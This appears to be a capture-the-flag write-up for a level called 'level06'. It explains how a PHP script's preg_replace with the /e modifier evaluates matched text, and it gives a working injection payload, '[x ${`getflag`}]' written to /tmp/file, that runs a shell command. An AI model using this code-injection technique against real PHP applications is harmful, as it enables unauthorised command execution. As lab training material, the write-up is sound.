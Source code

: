 ## level06

This level required to use injection in the regex inside php script.

[Curly syntax php](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex) <br>

[What \\1 means](https://stackoverflow.com/questions/54954183/what-does-this-1-mean-in-php) <br>

About [/e](https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier) pattern modifier

Here is the part of the code we are interested about:
```php
...
function x($y, $z) {
    # Read the content of a file into variable
    $a = file_get_contents($y); 

    # Call y with the second mached group and save the result
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
...
```

The script will try to load some file, and apply the regex to it.
The regex will search for `[x 'anything']` and run 'anything'. 

So the solution here is:
```bash
echo -e '[x ${`getflag`}]' > /tmp/file

./level06 /tmp/file
```